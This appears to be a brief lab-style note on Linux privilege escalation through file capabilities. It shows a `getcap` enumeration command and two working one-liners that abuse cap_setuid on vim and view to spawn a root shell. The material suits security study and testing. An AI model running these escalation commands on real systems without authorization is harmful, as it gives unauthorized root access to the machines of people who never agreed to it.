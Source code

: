 # Capabilities
***
System administrators have an additional method at their disposal to elevate the privilege level of a process or executable, known as "capabilities." To view the capabilities associated with binaries, follow these steps.
```sh
getcap -r / 2>/dev/null
```

## Example
Notice in the image below that both "vim" and "view" possess the "cap_setuid" capability, which could potentially enable an attacker to escalate their privileges.

```sh
# vim
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

# view
/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
